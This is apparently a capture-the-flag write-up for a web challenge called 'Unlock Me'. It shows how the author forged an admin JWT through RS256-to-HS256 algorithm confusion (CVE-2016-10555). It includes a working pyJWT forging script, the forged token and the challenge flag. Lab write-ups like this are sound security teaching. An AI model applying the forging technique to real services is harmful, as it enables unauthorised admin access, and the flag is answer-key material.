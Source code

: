 # [WEB] Unlock Me

## Background

The description given for this challenge was:
```
Our agents discovered COViD's admin panel! They also stole the credentials minion:banana, but it seems that the user isn't allowed in. Can you find another way?
```

<br/>

## Website Analysis

Opening the link shows a simple login page. The first thing I did was to check the source for any HTML comments (they usually contain useful hints).

<img src="screenshots/unlockme-1.jpg" style="border: 0.8px solid black" caption="Login page from the challenge site." />

<br/>

True enough, there is one comment that says something about `public.pem`. My instinct was to see if the file is available for me to download by visiting `/public.pem`, which was successful:

<img src="screenshots/unlockme-2.jpg" style="border: 0.8px solid black" caption="Downloading /public.pem was successful." />

<br/>

## Authentication Process

Next, it is time to examine the authentication process. Looking at the source once again:

```js
// Irrelevant code has been filtered

$( "#signinForm" ).submit(function( event ) {
  event.preventDefault();
  fetch("login", {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({"username": $( "#inputUsername" ).first().val(), "password": $( "#inputPassword" ).first().val() })
  }).then(function(response) {
    return response.json();
  }).then(function(data) {
    if (data.error) {
      $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
    } else {
      fetch("unlock", {
        headers: {
          "Authorization": "Bearer " + data.accessToken
        }
      }).then(function(response) {
// ...
```

In this [promise chain](https://javascript.info/promise-chaining) and using [fetch()](https://javascript.info/fetch) to send HTTP requests, once the "Sign In" button was been clicked, the following will occur:
1. Send a `POST` request to `/login` with the parameters `username` and `password` set with the values from the form.
2. JSONify the server's response.
3. If `data.error` exists in the JSON response (`data`), the browser will display it. **Otherwise**, a `GET` request is sent to `/unlock`, adding `data.accessToken` in the [Authorization HTTP header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Authorization): `Authorization: Bearer <data.accessToken>`.

Observe the (un)authentication in action when using the credentials `minion:banana`:

<img src="screenshots/unlockme-3.jpg" style="border: 0.8px solid black" caption="Attempting to login with the given credentials." />

<br/>

I recognized that the `data.accessToken` is actually a [JWT web token](https://jwt.io/).

### JWT Token

I proceeded to use [JWT.io](https://www.jwt.io) to decode this token and to analyze the payload within:

<img src="screenshots/unlockme-4.jpg" style="border: 0.8px solid black" caption="Decoded JWT token." />

<br/>

I saw that the username `minion` seems to be valid, but the `role` is set to `user`. It is highly likely that it needs to be `admin` instead. However, even though I could decode the payload easily, I am unable to modify it since the server validates if the JWT token is valid or not. By modifying the payload segment, the signature segment will no longer be valid.

💪 Time to try harder.

## Authentication Bypass

I took a step back and saw that the token uses the `RS256` (RSA w/ SHA256) algorithm, which means that the server might be vulnerable to [**CVE-2016–10555**](https://nvd.nist.gov/vuln/detail/CVE-2016-10555). In essence, this vulnerability allows the `RS256` algorithm to be substituted with the `HS256` (HMAC w/ SHA256) algorithm, and the payload to be signed with the original RSA public key (instead of the private key on the server-end). This means that I can **forge** JWT tokens containing payloads and valid signatures.

Since I have obtained the public key earlier on: 

```bash
# public.pem

-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEA4Cot1mM0eF5cZUnifKx0
8MJQ59ui9/8DLzWpWWtlPGsB4T9UsaAspndZJafbGFq0v+vGzG+TltJjb1v+tTj8
sqFanc/KWdQZr3WwmuhU95EJ7RRhtEIxTN8Rn1KOKUqZ/Plmf4LrMrMZm66DqaTW
H2my5IRShK0i0YpziT9JEeVJtS/zC+UUdbImrOavjD4PDZv14FLEuePMN0mCNcQ5
z5iSQv5j8npbtvMBbeAKMvYyCeIchjW22Dp/tNi4xfI7CaTyPp0pO3+MZ9vJ8O02
YOC7/+tQX2NdveVuKYEg4XTQ/nmiYSK9DeXyO/EGkQzxZjpLv5ZMN07Nau2xpQoG
1Ip4YfDA5Y/MjA8qDgNN0n/pmBaPBHNvFK6mWJllnuOnLpQHCxZNxBudxTLSoXkq
XQPRKcdZpbv0kjt/ZpwkoXHfQLToJyZQgQXtEHaW36Ko9Xjq3cDWzkSjADMxaq/5
8SZvPUknm3Mv9KN8zYiePYGUl2aLyKumKF++rlh7a6xJgcBcs10bf0yyeRU3NWWb
0pz4dgdrgh2sXrg/U51VhejnNfvfRf+4Cy1QM4QWbKXZk9sLtLpkfiou/ri3YUn3
txIgfYKa7a5tOtBWSRHHlHOmS58Ab51pmSGdjIeCa+WMie0i5reuRb6WJ27jnvJF
G0hytABBbCgeL00ymJK16tUCAwEAAQ==
-----END PUBLIC KEY-----
```

I would be able to forge a JWT token that sets the `role` to `admin`! In order to do so, I used the following Python script (requires [pyJWT](https://pyjwt.readthedocs.io/en/stable/)):

```py
# gen.py

import jwt

key = open("public.pem").read()
encoded = jwt.encode(
    {
        "username": "minion",
        "role": "admin",
        "iat": 1607241406
    },
  key,
  algorithm='HS256')

print "JWT Token: {}".format(encoded)
```

Running it spawns a token:
```bash
$ python gen.py
JWT Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsImlhdCI6MTYwNzI0MTQwNiwicm9sZSI6ImFkbWluIn0.EpTg1WqcMWon0KGb9Hw1onJ4gBO5QGA41YVmUmKhXZY
```

Using this generated JWT token in-place of the original one, I sent a `GET` request to `/unlock`:

<img src="screenshots/unlockme-5.jpg" style="border: 0.8px solid black" caption="Logging in with the generated JWT token." />

<img src="screenshots/unlockme-6.jpg" style="border: 0.8px solid black" caption="Logging in with the generated JWT token." />

<br/>

Which gave me the flag for this challenge:
```
govtech-csg{5!gN_0F_+h3_T!m3S}
```